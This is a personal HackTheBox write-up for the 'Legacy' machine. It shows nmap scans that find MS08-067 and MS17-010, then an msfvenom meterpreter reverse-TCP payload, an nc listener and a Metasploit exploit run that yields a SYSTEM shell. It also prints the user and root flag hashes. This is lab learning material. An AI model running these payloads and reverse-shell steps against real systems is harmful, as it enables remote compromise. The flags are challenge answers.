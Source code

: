 #SMB #MS08-067 #Metasploit

# Reconnaissance
```bash
nmap -sV -sC -A 10.10.10.4
```
```txt
┌──(kali㉿kali)-[~/Desktop/HackTheBox/Legacy]
└─$ nmap -sV -sC -A 10.10.10.4
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-26 11:56 CST
Nmap scan report for 10.10.10.4
Host is up (0.23s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 5d00h27m39s, deviation: 2h07m16s, median: 4d22h57m39s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:0d:36 (VMware)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2022-05-31T08:55:08+03:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.98 seconds
```

```bash
# Automatic tools 
# nmapAutomator (https://github.com/21y4d/nmapAutomator) 
cd /usr/local/bin/ 
sudo ./nmapAutomator.sh --host 10.10.10.4 --type All
```


```txt
---------------------Starting Vulns Scan-----------------------
                               
Running CVE scan on all ports
                            


PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp



Running Vuln scan on all ports
This may take a while, depending on the number of detected services..                                                                                                   
                                                                    

PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

---------------------Recon Recommendations---------------------

```
# Enumeration

## Enumerate on 135

NA

## Enumerate on 139 and 445: smb

We use nmapAutomator to know there is 139 and 445 port open on this machine. It means that it used SMB service. And we will see ms08-067 is vulnerable on this machine. Let we try it:

```bash
searchsploit ms08-067
searchsploit -x 40279
searchsploit -m 40279
```

Create the payload of shellcode my msfvenom follow by python script

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.3 LPORT=443  EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python
```

And we change the payload of this script. 

```bash
chmod 777 40279.py
nc -vlp 443
python2 40279.py
```

# Exploitation
https://pentestsky.in/legacy-hackthebox-walkthrough/

## MS08-067 by manually
first we will use virtual environment. TBD

```bash
virtualenv -p python2 venv
source venv/bin/activate
pip install impacket
pip install pycrypto
```


## MS08-067 by Metasploit
Due to python2 exploit has some problem, Or we could use metasploit:

```bash
msfconsole 
search ms08-067
use 0
show options
set rhosts 10.10.10.4
set lhost 10.10.14.3
run
# get the system, but [-] Already running as SYSTEM
getsystem
```

![[Legacy-1.png]]

# Privilege Escalation: NA

```cmd
shell
whoami
hostname
ipconfig
```

![[Legacy-2.png]]

# Get the flag

we will find we have already have high privilege. Let's find the flag.

```cmd
# user flag
cd C:\Documents and Settings\john\Desktop
dir
type user.txt
# e69af0e4f443de7e36876fda4ec7644f
```
```cmd
# admin flag
cd C:\Documents and Settings\Administrator\Desktop
dir
type
type root.txt
# 993442d258b0e0ec917cae9e695d5713
```

![[Legacy-3.png]]

![[Legacy-4.png]]
